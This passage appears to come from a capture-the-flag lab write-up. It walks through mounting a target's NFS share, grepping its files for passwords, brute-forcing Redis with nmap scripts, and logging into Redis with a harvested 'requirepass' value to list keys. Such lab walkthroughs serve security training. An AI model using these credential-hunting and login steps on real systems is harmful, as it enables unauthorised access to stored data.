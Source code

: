 `cd configuration/thm ; df -k`

```powershell
Filesystem            1K-blocks     Used Available Use% Mounted on
udev                    1993584        0   1993584   0% /dev
tmpfs                    402344     1012    401332   1% /run
/dev/xvda1             30724080 24456584   4873620  84% /
tmpfs                   2011704     1052   2010652   1% /dev/shm
tmpfs                      5120        0      5120   0% /run/lock
/dev/xvda15              126678      270    126408   1% /boot/efi
tmpfs                    402340       72    402268   1% /run/user/123
tmpfs                    402340       72    402268   1% /run/user/0
10.10.6.118:/opt/conf  11309824  7331328   3384320  69% /root/configuration/thm

```

`grep -r 'pass'`

```powershell
redis/redis.conf:# 2) No password is configured.
redis/redis.conf:# If the master is password protected (using the "requirepass" configuration
redis/redis.conf:# masterauth <master-password>
redis/redis.conf:requirepass "B65Hx562F@ggAZ@F"
redis/redis.conf:# resync is enough, just passing the portion of data the slave missed while
redis/redis.conf:# 150k passwords per second against a good box. This means that you should
redis/redis.conf:# use a very strong password otherwise it will be very easy to break.
redis/redis.conf:# requirepass foobared
```

> **Redis Enumeration Phase**
> 

`nmap -sV -T4 -A -O -oN nmap_redis.txt -p 6379 --script="redis-*" -Pn $target_ip`

```powershell
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store
| redis-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 5000 guesses in 184 seconds, average tps: 26.7
```

`redis-cli -h $target_ip -p 6379 --insecure --no-auth-warning`

```powershell
10.10.6.118:6379> keys *
(error) NOAUTH Authentication required.
10.10.6.118:6379> 
```

`redis-cli -h $target_ip -a 'B65Hx562F@ggAZ@F' -p 6379 --insecure --no-auth-warning`

```powershell
10.10.6.118:6379> keys *
1) "marketlist"
2) "int"
3) "tmp"
4) "internal flag"
5) "authlist"

10.10.6.118:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
```